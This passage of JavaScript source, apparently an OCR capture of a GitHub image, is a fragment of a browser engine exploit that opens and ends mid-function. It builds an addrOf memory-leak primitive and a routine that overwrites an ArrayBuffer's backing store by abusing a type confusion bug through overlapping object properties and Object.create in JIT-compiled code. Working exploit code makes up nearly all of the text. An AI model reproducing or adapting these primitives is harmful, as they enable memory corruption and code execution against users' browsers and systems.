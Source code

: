 ```
        //%DebugPrint(r);
        //readline();
        for (let i = 1; i < r.length; i++) {
            // Properties that overlap with themselves cannot be used.
            if (i !== -r[i] && r[i] < 0 && r[i] > -NUM_PROPERTIES) {
                [p1, p2] = [i, -r[i]];
                return;
            }
        }
    }
   throw "Failed to find overlapping properties";
}

// addrOf primitive with type confusion vuln
let leakAddr;
function addrOf(obj)
{
    eval(`
        function hax(o) {
            o.inline;
            this.Object.create(o);
            return o.p${p1}.x1;
        }
    `);
    let propertyValues = [];
    propertyValues[p1] = {x1 : 13.37, x2 : 14.47};
    propertyValues[p2] = {y1: obj};
    for(let i=0; i<MAX_ITERATIONS; i++) {
        
        leakAddr = hax(makeObj(propertyValues));
        if (leakAddr !== 13.37) {
            return f2i(leakAddr)-1;
        }
    }
    throw "Addrof failed";
}

// overwrite backing store with type confusion vuln
var dataBuf = new ArrayBuffer(0x200);
var dataView = new DataView(dataBuf);
function overwriteDataBuf(addr)
{
    eval(`
        function hax(o, addr) {
            o.inline;
            this.Object.create(o);
            let tmp = o.p${p1}.x2;
            o.p${p1}.x2 = addr;
            return tmp
        }
    `);
    let propertyValues = [];
    propertyValues[p1] = {x1: 13.38, x2: 14.48};
    propertyValues[p2] = dataBuf;
    for(let i=0; i<MAX_ITERATIONS; i++) {
        propertyValues[p1].x2 = 14.48;
        let ret = hax(makeObj(propertyValues), i2f(addr));
        if (ret !== 14.48) {
            //console.log(hex(f2i(ret)));
            return;
        }
    }

```